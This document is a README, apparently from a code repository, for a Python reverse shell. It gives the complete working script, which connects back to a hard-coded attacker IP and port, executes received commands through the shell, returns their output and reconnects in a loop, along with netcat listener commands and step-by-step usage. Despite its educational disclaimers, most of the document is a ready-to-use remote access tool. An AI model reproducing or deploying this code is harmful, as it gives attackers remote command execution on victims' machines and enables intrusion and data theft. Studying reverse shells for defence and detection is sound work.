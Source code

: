 
# Reverse Shell Script

This project is a Python-based reverse shell script. It connects a compromised machine back to an attacker's machine, allowing the attacker to execute shell commands remotely on the compromised system. **This script is for educational purposes only and should be used responsibly.**

## Features

- Establishes a reverse connection to a specified IP and port.
- Executes shell commands received from the attacker's machine.
- Sends command outputs back to the attacker.

## Requirements

- Python 3.x
- Netcat (`nc`) or a similar tool on the attacker's machine for listening to connections.

## Setup

### Attacker's Machine

1. **Start a Listener:**

   Open a terminal and run:

   ```bash
   nc -lvp 4444
   ```

   - `-l`: Listen mode.
   - `-v`: Verbose output.
   - `-p 4444`: Listen on port 4444 (ensure this matches the script configuration).

### Target Machine

1. **Save the Script:**

   Create a file named `reverse_shell.py` and paste the following code:

   ```python
   import socket
   import subprocess
   import sys
   import time

   HOST = '172.16.0.2'  # IP address of the attacking machine
   PORT = 4444          # Port number the attacking machine is listening on

   def connect(host, port):
       go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       go.connect((host, port))
       return go

   def wait(go):
       data = go.recv(1024).decode('utf-8')
       if data == "exit\n":
           go.close()
           sys.exit(0)
       elif len(data) == 0:
           return True
       else:
           p = subprocess.Popen(data, shell=True,
                                stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                stdin=subprocess.PIPE)
           stdout, stderr = p.communicate()
           go.send(stdout + stderr)
           return False

   def main():
       while True:
           dead = False
           try:
               go = connect(HOST, PORT)
               while not dead:
                   dead = wait(go)
               go.close()
           except socket.error:
               pass
           time.sleep(2)

   if __name__ == "__main__":
       sys.exit(main())
   ```

2. **Run the Script:**

   Open a terminal, navigate to the script directory, and execute:

   ```bash
   python3 reverse_shell.py
   ```

   This will attempt to connect back to the attacker’s machine.

## Usage

1. **Listener Setup:**

   Ensure the attacker's machine is ready to accept connections:

   ```bash
   nc -lvp 4444
   ```

2. **Execute Script:**

   Run the script on the target machine to establish a reverse shell:

   ```bash
   python3 reverse_shell.py
   ```

3. **Command Execution:**

   - Type commands in the Netcat terminal to execute them on the target machine.
   - Use `exit` to close the connection.

## Security Considerations

- **Legal Use:** Ensure you have explicit permission to test systems using this script. Unauthorized access to computer systems is illegal.
- **Network Configuration:** Ensure the target machine can connect to the attacker's machine over the network. Adjust firewall settings if necessary.
- **Detection and Prevention:** Use network monitoring tools to detect and block unauthorized outgoing connections.

## Disclaimer

This script is intended for educational purposes only. It demonstrates how reverse shells work and should only be used in a controlled environment with explicit authorization. Misuse of this script can result in legal action.
This README provides a comprehensive overview of the project, including setup, usage instructions, and important security considerations. Always ensure that such scripts are used legally and ethically.

